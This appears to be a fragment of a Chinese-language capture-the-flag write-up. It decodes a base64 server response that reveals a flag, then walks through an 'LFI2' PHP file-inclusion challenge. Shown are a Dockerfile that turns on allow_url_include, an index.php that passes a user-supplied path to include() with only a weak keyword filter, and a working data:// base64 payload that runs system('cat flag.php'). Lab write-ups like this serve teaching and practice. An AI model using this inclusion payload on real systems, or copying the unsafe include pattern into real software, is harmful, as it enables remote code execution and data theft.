 服务器返回`PD9waHANCg0KZWNobyAiZmxhZ+WcqOi/me+8jOS9huaYr+S9oOeci+S4jeWIsO+8jOWTiOWTiOWTiO+8ge+8ge+8gSI7DQokZmxhZz0iZmxhZ3tlMDU2MjE0OS1iNTU2LTQ2MTAtYWM1OC01NjQzMjk5ZGY0YWR9IjsNCg==`

base64解码即可`echo "flag在这，但是你看不到，哈哈哈！！！";
$flag="flag{e0562149-b556-4610-ac58-5643299df4ad}";`

# LFI2

```do
FROM php:8-apache-buster

COPY app /var/www/html

RUN cp /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini && \
    sed -i 's/allow_url_include = Off/allow_url_include = On/g' /usr/local/etc/php/php.ini

RUN chown root /var/www/html && \
    chgrp root /var/www/html && \
    chmod -R 555 /var/www/html
```

```php
// index.php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

```
file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
# PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs ===> <?php system('cat flag.php');
```
